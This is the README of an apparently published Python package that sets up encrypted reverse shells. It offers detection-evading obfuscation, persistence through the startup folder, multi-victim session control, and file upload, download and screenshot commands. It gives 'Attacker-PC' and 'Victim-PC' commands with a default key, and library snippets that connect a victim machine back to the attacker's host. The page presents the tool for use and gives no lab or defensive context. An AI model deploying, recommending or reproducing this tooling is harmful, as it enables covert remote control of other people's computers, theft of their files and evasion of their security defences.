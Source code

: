 # **DopeShell**
![Static Badge](https://img.shields.io/badge/Python-3.12.5-orange)
![Static Badge](https://img.shields.io/badge/License-MIT-white)
![Static Badge](https://img.shields.io/badge/PyPi-1.1.1-green)
## **Introduction**

**DopeShell** is a Python library designed to simplify the creation of secure reverse shells with advanced features like session management, encryption, multiple connections, and obfuscation techniques. This library provides an easy-to-use interface for setting up both the client and server sides of a reverse shell, with the ability to manage multiple sessions, simulate command-line prompts, and more.

## **Features**

- **Encrypted Communication**: Utilizes AES encryption to secure data transmitted between the client and server.
- **Session Management**: Handles multiple active sessions and allows the server operator to switch between them.
- **Command Prompt Simulation**: The reverse shell simulates the target's command-line interface, making it appear as if the commands are being executed locally.
- **Obfuscation Techniques**: Implements basic obfuscation to avoid detection by security systems.
- **Customizable**: Easily configure host, port, and encryption key via command-line arguments.
- **Persistence**: Easily set up persistence by saving a batch file in the startup folder to ensure reconnection on boot
- **Useful commands**: Provides useful commands like download, upload, screenshot to enhance interactivity of the shell

## **Directory Structure**

The project is organized as follows:
- **setup.py**: Contains the package configuration for installation.
- **README.md**: This documentation file.
- **LICENSE**: The project's license file.
- **dopeshell/**: The main package directory containing the server and client scripts.

## **Installation**

### **Prerequisites**

- **Python 3.7+**
- **pip** (Python package manager)

### **Installing DopeShell**

You can install `DopeShell` using `pip`:

```bash
pip install DopeShell
```

### **Building DopeShell**
If you want to build it yourself, you can use the following commands:
```
1. git clone https://www.github.com/anonymous300502/DopeShellPyPi
2. python setup.py sdist bdist_wheel
3. pip install dist/DopeShell-1.1.1-py3-none-any.whl (Replace the .whl file with the file in your dist directory)
```


## **Usage Instructions:**
#### **On the Attacker-PC, Run the following commands:**
```bash
dopeshell-server --host 192.168.1.11 --port 4444 --key "myverystrongpasswordo32bitlength"
```
*Note:*<br>
- Dopeshell uses "myverystrongpasswordo32bitlength" as the default key so you can skip the --key argument if you wish to use the default key, but we recommend using your own custom key which should be **32 bits** long.
- If you omit the --host and --port arguments, It uses '0.0.0.0' as the default IP address and '4444' as the default port.

#### **On the Victim-PC, Run the following commands:**
```bash
dopeshell-client --server-ip 192.168.1.11 --port 4444 --key "myverystrongpasswordo32bitlength"
```
*Note:*<br>
- The server ip and port arguments are **required** here, If a custom key was used in the server it should be mentioned using the --key argument. If a custom key is not used in the server side startup command, It will use the default key automatically.

### **Usage commands:**
- switch NUMBER [To switch between available sessions]
- exit [To exit the session] <br><br><br>
- persist [Set up persistence to enusre connection on reboot]<br><br><br>

*Image1- initializaiton*
![Runing server](https://raw.githubusercontent.com/anonymous300502/DopeShellPyPi/blob/main/screenshots/running.png)
*Image2- Running commands*
![basic_usage_1](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/basic_usage_1.png)<br><br><br>
*Image3- Switching between sessions* <br>
![basic_usage_2](https://raw.githubusercontent.com/anonymous300502/DopeShellPyPi/blob/main/screenshots/improved_exit_and_switch.png)<br><br><br>
*Image4- Setting up persistence* <br>
![presist](https://raw.githubusercontent/anonymous300502/DopeShellPyPi/blob/main/screenshots/persistence.png)<br><br><br>
*Image5- In-Shell commands* <br>
![commands](https://raw.githubusercontent/anonymous300502/DopeShellPyPi/blob/main/screenshots/commands.png)

### **Here are sample snippets if you wish to use the library in your own code:**
- test_server.py
```python
from DopeShell import DopeShellServer

key = b'myverystrongpasswordo32bitlength'

server = DopeShellServer('0.0.0.0', 4444, key)
server.run()
```
- test_client.py
```python
from DopeShell import DopeShellclient

key = b'myverystrongpasswordo32bitlength'

server = DopeShellclient('192.168.1.11', 4444, key)
server.run()

```

### **Contributing**
- Contributions are welcome! To contribute:
- Fork the repository.
- Create a new branch for your feature/bugfix.
- Write tests for your changes.
- Submit a pull request.
- Please ensure your code adheres to the project's coding standards.


### **License**
This project is licensed under the MIT License. See the LICENSE file for details.

### **Contributors:**<br>
[Manaswi Sharma](https://www.github.com/manaswii)

### **Contact Information**
For issues, questions, or suggestions, please contact:

Email: 170mailmea@gmail.com<br>
GitHub: https://github.com/anonymous300502
